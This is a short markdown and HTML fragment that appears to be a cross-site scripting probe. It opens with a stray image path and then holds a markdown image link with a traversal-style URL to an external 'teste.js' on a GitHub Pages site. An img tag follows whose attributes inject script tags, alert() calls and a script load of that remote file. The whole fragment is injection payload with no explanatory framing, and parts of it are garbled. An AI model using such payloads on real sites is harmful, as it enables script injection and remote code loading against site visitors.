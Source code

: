 ![](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js?w=10)

<img src="?w=<script>alert(0);</script>" height="<script src='../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js'>;" width="alert(1)">
